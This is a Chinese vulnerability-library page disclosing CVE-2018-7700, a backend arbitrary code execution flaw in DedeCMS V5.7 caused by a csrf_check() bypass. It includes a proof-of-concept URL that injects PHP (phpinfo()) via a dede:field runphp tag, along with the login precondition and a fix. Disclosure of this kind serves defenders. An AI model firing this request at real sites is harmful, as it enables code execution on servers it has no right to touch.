 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.bylibrary.cn](https://www.bylibrary.cn/%E6%BC%8F%E6%B4%9E%E5%BA%93/01-CMS%E6%BC%8F%E6%B4%9E/DedeCMS/Dedecms%20V5.7%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8CCVE-2018-7700/)

> 白阁文库是白泽 Sec 团队维护的一个漏洞 POC 和 EXP 披露以及漏洞复现的开源项目，欢迎各位白帽子访问白阁文库并提出宝贵建议。

[](https://github.com/BaizeSec/bylibrary/blob/main/docs/%E6%BC%8F%E6%B4%9E%E5%BA%93/01-CMS%E6%BC%8F%E6%B4%9E/DedeCMS/Dedecms%20V5.7%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8CCVE-2018-7700.md "编辑此页")

漏洞简介 [¶](#_1 "Permanent link")
------------------------------

该漏洞的触发文件为 /dede/tag_test_action.php。起因是 csrf_check() 函数的绕过，导致可执行任意代码。

POC[¶](#poc "Permanent link")
-----------------------------

```
http://localhost/后台地址/tag_test_action.php?url=a&token=&partcode={dede:field name='source' runphp='yes'}phpinfo();{/dede:field}
```

![](https://www.bylibrary.cn/%E6%BC%8F%E6%B4%9E%E5%BA%93/01-CMS%E6%BC%8F%E6%B4%9E/DedeCMS/Dedecms%20V5.7%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8CCVE-2018-7700/20180328005501-96c638a6-31df-1.png)

利用条件 [¶](#_2 "Permanent link")
------------------------------

登录后台

解决方案 [¶](#_3 "Permanent link")
------------------------------

重新实现 csrf_check() 函数

参考来源 [¶](#_4 "Permanent link")
------------------------------

先知社区：[https://xz.aliyun.com/t/2224](https://xz.aliyun.com/t/2224)

* * *

最后更新: 2021-03-24
